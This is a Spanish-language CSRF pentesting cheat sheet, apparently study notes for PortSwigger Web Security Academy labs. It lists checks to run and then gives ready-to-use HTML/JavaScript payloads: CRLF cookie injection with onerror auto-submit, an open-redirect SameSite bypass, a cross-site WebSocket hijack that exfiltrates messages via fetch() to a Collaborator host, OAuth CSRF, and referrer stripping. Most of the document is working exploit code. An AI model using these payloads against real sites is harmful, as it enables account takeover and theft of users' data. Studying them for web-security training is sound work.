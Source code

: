 --  -
## **Cosas a testear**
1. Ver si borrando el csrf token se puede de igual manera modificar los campos CRUD.
2. Cambiar el metodo utilizado y agregar un **`&_method=POST`** para ver de engañar al servidor y sobreescribir el metodo.
3. Probar reutilizando el token de otro usuario sin haber sido utilizado previamente.
4. Intentar eliminando la cabecera referer **`<meta name="referrer" content="no-referrer">`** o modificarla para que sea considerada como valida **`Referrer-Policy: unsafe-url`**.

--- -
## **Payloads**
- Intentamos cargar una imagen la cual intenta hacer un search para así setear como cookie un csrfkey valido y la cookie Samesite=None para que no joda con el tema de los dominios cruzados. La carga de esa imagen va a generar un error, por lo que en ese error subimos el form con todo ya seteado previamente.
```html
<form action="https://URL/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="kike@kike.com" />
    <input type="hidden" name="csrf" value="YuqS3GNMMQ4pMjgJueYf1S5GdHgGV4E3" />
    <input type="submit" value="Submit request" />
</form>

<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=BfSlrsokL2VXRM9P5dfS58XmlkZG9Hzp%3b%20Samesite=None" onerror="document.forms[0].submit();">
```
*Aclaracion:* Por lo general no hace falta agregar el %3b%20Secure, pero si no lo agrega habrai que ponerlo nosotros.

- Aprovechando de un open-redirect para bypassear la restriccion Samesite=Strict
```html
<script>
    location="https://URL/post/comment/confirmation?postId=../my-account/change-email%3femail=juansero@kike.com%26submit=1";
</script>
```

- Exfiltracion de datos mediante el uso de websockets
```javascript
<script>
	var ws = new WebSocket("https://URL/chat");
	
	ws.onopen = function() {
	    ws.send("READY");
	};
	
	ws.onmessage = function(info) {
		    fetch("https://BURP-COLLABORATOR/?data=" + btoa(info.data));
	};
</script>
```

- Explotando CSRF en Oauth arrastrando cookies una vez realizando la solicitud al endpoint correspondiente para que nos las asigne.
```html
<form action="https://0ac900850465cb0e857b7763005c00bf.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="kike@kike.com" />
  <input type="submit" value="Submit request" />
</form>


<script>
  window.open("https://0ac900850465cb0e857b7763005c00bf.web-security-academy.net/social-login");
  setTimeout(updateEmail,5000);
  function updateEmail(){
      document.forms[0].submit();
  }
</script>


```

- Eliminando cabecera Referrer
```html
<html>
<head>
    <meta name="referrer" content="no-referrer">
</head>
<form class="login-form" name="change-email-form" action="https://URL/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
</form>

<script>
    document.forms[0].submit();
</script>
</html>

```